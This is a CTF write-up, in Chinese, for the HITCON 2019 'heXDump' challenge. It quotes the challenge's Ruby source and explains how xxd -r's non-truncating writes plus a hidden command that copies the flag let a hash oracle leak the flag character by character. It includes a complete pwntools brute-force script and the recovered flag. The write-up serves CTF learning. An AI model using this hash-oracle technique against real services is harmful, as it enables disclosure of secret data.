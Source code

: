 # HITCON CTF Quals - 2019

## Misc / 202 - heXDump

>😆
>
>nc 13.113.205.160 21700
>
>Author: david942j
>62 Teams solved.

### solution
by [@FI](https://github.com/92b2f2)

水題
題目是用ruby寫的 連過去會先看到menu
```ruby
def menu
  <<~MENU
    1) write
    2) read
    3) change output mode
    0) quit
  MENU
end
```
我們可以寫，讀，更換輸出模式
不過他一開始就把你限制只能操作在tmp底下的某個檔案
```ruby
@file = '/tmp/' + SecureRandom.hex
```
寫檔的部分
```ruby
def write
  puts 'Data? (In hex format)'
  data = gets
  return false unless data && !data.empty? && data.size < 0x1000

  IO.popen("xxd -r -ps - #{@file}", 'r+') do |f|
    f.puts data
    f.close_write
  end
  return false unless $CHILD_STATUS.success?

  true
end
```
輸入hex值並用xxd寫檔

讀檔的部分
```ruby
DEFAULT_MODE = "sha1sum %s | awk '{ print $1 }'"
@mode = DEFAULT_MODE
def read
  unless File.exist?(@file)
    puts 'Write something first plz.'
    return true
  end

  puts output(format(@mode, @file))
  true
end
```
他預設是用sha1sum來輸出hash過的檔案

而更換輸出模式
```ruby
def change_mode
  puts mode_menu
  @mode = case gets.strip.downcase
          when 'sha1' then "sha1sum %s | awk '{ print $1 }'"
          when 'md5' then "md5sum %s | awk '{ print $1 }'"
          when 'aes' then "openssl enc -aes-256-ecb -in %s -K #{@key} | xxd -ps"
          else DEFAULT_MODE
          end
end
```
可以改用md5 或是aes 來輸出

不過最後在main loop裡
```ruby
def main_loop
  puts menu
  case gets.to_i
  when 1 then write
  when 2 then read
  when 3 then change_mode
  when 1337 then secret
  else false
  end
end
```
有一個menu裡沒有的隱藏指令 1337
```ruby
def secret 
  FileUtils.cp(FLAG_PATH, @file)
  true
end
```
他會把flag複製 覆蓋 到目前的檔案

所以我們要如何拿到flag呢

如果了解xxd話就會知道 xxd為了方便你直接做patch 在用reverse dump(-r | -revert)時 他不會覆蓋你的檔案 而是只有複寫你輸入的長度
> -r | -revert
>
>    Reverse operation: convert (or patch) hexdump into binary.  If not writing to stdout, xxd writes into its  output  file without  truncating  it.

實際測試如下
```
$ echo "666666666666666666" | xxd -r -p - out
$ cat out
fffffffff
$ echo "777777777777" | xxd -r -p - out
$ cat out
wwwwwwfff
```
所以我們可以先用1337來複製一份flag 先拿到正確的flag hash
然後再對flag做寫檔 利用輸出hash值 從頭開始一個一個字元疊代出flag

my script
```python
#!/usr/bin/env python3
from pwn import *
import string

r = remote('13.113.205.160','21700')

def read_menu():
    r.recvline()
    r.recvline()
    r.recvline()
    r.recvline()
    return

def check(a):
    read_menu()
    r.sendline(b'1')    #select write
    r.recvline()
    r.sendline(a.encode().hex())    #send check
    read_menu()
    r.sendline(b'2')    #read hash
    return r.recvline()

read_menu()
r.sendline(b'1337') #copy flag
read_menu()
r.sendline(b'2')    #read flag hash
fhash = r.recvline()
print(fhash)

flag = 'hitcon{'
alph = string.printable[:-6]

while flag[-1] != '}':
    for a in alph:
        test = check(flag+a)
        print(test)
        if test == fhash:
            flag += a
            print("="*40)
            print(flag)
            print("="*40)
            break
        print(flag+a)

r.interactive()
```
`flag = 'hitcon{xxd?XDD!ed45dc4df7d0b79}'`
